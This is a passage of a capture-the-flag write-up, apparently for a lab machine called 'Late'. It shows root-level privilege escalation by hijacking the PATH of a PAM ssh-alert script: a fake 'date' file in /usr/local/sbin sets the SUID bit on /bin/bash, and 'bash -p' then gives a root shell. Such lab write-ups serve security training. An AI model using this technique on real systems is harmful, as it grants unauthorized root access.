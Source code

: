 ```bash
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```
As we can assume this script is executed every time we do an ssh login.  
We can use `pspy64`  and trigger an ssh login event (using ssh keys) to confirm this behaviour.  
```bash
2022/07/14 16:08:43 CMD: UID=0    PID=4638   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:43 CMD: UID=0    PID=4640   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=110  PID=4642   | sshd: [net]
2022/07/14 16:08:47 CMD: UID=0    PID=4641   | sshd: [accepted]
2022/07/14 16:08:47 CMD: UID=0    PID=4643   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4644   |
2022/07/14 16:08:47 CMD: UID=0    PID=4645   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4647   | /bin/bash /usr/local/sbin/ssh-alert.sh
2022/07/14 16:08:47 CMD: UID=0    PID=4648   | sendmail: MTA: 26EG8lLc004648 localhost.localdomain [127.0.0.1]: DATA
2022/07/14 16:08:47 CMD: UID=1000 PID=4650   | sshd: svc_acc
2022/07/14 16:08:47 CMD: UID=0    PID=4649   | sendmail: MTA: ./26EG8lLc004648 from queue
2022/07/14 16:08:47 CMD: UID=0    PID=4651   | sensible-mda svc_acc@new root  127.0.0.1
```
as we can see, as we login, the script get executed.  
Now, if we inspect `$PATH` we can see that `/usr/local/sbin` (owned by us in in the path).  
Now, since the script does not contain full path for commands like `date`, we can hijack the path if date is located in a folder with a lower priority than  `/usr/local/sbin` .  
```bash
svc_acc@late:~$ echo $PATH
/home/svc_acc/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
svc_acc@late:~$ which date
/bin/date
```
If root that is triggering the execution of `/usr/local/sbin/ssh-alert.sh` has the same `$PATH`, we can hijack the path and execute commands as root.  
Now we can create a file `date` in `/usr/local/sbin` with the following content:  
```shell
svc_acc@late:/usr/local/sbin$ cat date
chmod 4755 /bin/bash
```
Now if we login as `svc_user` if the path gets hijacked we can run bash with SUID:  
```
[root@kali Late ]$ ssh -l svc_acc -i keys/id_rsa $TARGET
-bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
-bash-4.4$ bash -p
bash: warning: setlocale: LC_ALL: cannot change locale (en_GB.UTF-8)
bash-4.4# id
uid=1000(svc_acc) gid=1000(svc_acc) euid=0(root) groups=1000(svc_acc)
```
and we owned root
